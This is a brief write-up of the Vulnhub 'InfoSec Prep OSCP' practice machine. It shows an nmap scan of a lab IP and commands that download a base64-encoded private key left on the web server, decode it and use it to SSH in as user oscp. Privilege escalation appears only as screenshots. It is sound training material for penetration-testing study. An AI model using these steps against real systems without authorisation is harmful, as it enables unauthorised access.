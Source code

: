 ```yaml
---
layout: post
title: Vulnhub InfoSec Prep OSCP Writeup
---
```


Vulnhub writeup

Start with a full nmap scan
```
nmap -A -p- -oA fullallport 192.168.0.15

Nmap scan report for 192.168.0.15
Host is up (0.00021s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```
Discovered based64 encoded text on http://192.168.0.15/secret.txt which when decoded is a private key. On the website the user oscp is mentioned which we use to gain access via ssh.

```
wget -O secret.txt http://192.168.0.15/secret.txt
cat secret.txt | base64 -d > key.txt
chmod 600 key.txt
ssh -i key.txt oscp@192.168.0.15
```
Initial access

![ssh](/images/infosec1.png )

Linux Smart Enum scripts

![scripts](/images/infosec2.png )

Privilege Escalation

![esc](/images/infosec3.png )

